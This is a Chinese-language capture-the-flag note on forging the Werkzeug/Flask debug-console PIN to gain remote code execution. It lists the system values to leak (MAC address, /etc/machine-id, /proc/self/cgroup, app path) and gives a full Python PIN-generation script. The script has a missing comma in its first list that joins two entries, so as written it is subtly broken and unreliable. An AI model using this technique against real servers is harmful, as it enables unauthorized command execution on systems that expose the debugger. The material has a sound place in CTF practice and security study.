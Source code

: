 tags:: CTF/RCE, werkzeug

- https://ctf.anzu.link/pages/204626/
- # 原理
	- 读取到某些敏感信息后，利用敏感信息算出和目标同样的PIN, 然后使用PIN控制flask执行命令
	- 有时没开debug模式，也可以通过`/console`看到终端
	- 貌似对werkzeug通用
- # PIN生成方法
	- PIN生成代码在`/home/user/.local/lib/python3.10/site-packages/werkzeug/debug/__init__.py`这个文件内
	- 需要获取到`probably_public_bits`和`private_bits`两个数组内的内容
	- `probably_public_bits`
		- `[0]`: 用户名
		- `[1]`: modname, 不魔改的话就是`flask.app`
		- `[2]`: `getattr(app, '__name__', getattr(app.__class__, '__name__'))`的运行结果，一般是`Flask`
		- `[3]`: app类的存储目录
			- 类似于`/home/user/.local/lib/python3.10/site-packages/flask/app.py`
	- `private_bits`
		- `[0]`: 十进制表示的服务器MAC
			- 可以用`int("00:16:3e:5e:6c:00".replace(":", ""), 16)`转换
			- 一般在对应网卡（如 eth0）的文件中：`/sys/class/net/eth0/address`
		- `[1]`: 基于两个文件内容生成，各个OS的生成方法不同，以下是Linux的生成方法：
			- 获取"/etc/machine-id"或"/proc/sys/kernel/random/boot_id"的内容
			- 获取/proc/self/cgroup的内容，然后按照`/`分段，获取最后一段
			- 拼接上面获得的两段bytes
- # PIN生成脚本
	- 新版flask的生成方法和老版不一样
	- ```python
	  import hashlib
	  from itertools import chain
	  
	  rv, num = None, None
	  
	  probably_public_bits = [
	      'user'# 用户名
	      'flask.app',# modname
	      'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	      '/home/user/.local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
	  ]
	  
	  private_bits = [
	      '95535655936',# str(uuid.getnode()),  /sys/class/net/ens33/address
	      '2c2781498c424bcf86b4d5aa3c0d27faapp-glib-codium-1239.scope'# /etc/machine-id的内容+/proc/self/cgroup的结尾
	  ]
	  
	  h = hashlib.sha1()
	  for bit in chain(probably_public_bits, private_bits):
	      if not bit:
	          continue
	      if isinstance(bit, str):
	          bit = bit.encode("utf-8")
	      h.update(bit)
	  h.update(b"cookiesalt")
	  
	  cookie_name = f"__wzd{h.hexdigest()[:20]}"
	  
	  if num is None:
	      h.update(b"pinsalt")
	      num = f"{int(h.hexdigest(), 16):09d}"[:9]
	  
	  if rv is None:
	      for group_size in 5, 4, 3:
	          if len(num) % group_size == 0:
	              rv = "-".join(
	                  num[x : x + group_size].rjust(group_size, "0")
	                  for x in range(0, len(num), group_size)
	              )
	              break
	      else:
	          rv = num
	  
	  print(rv)
	  
	  ```
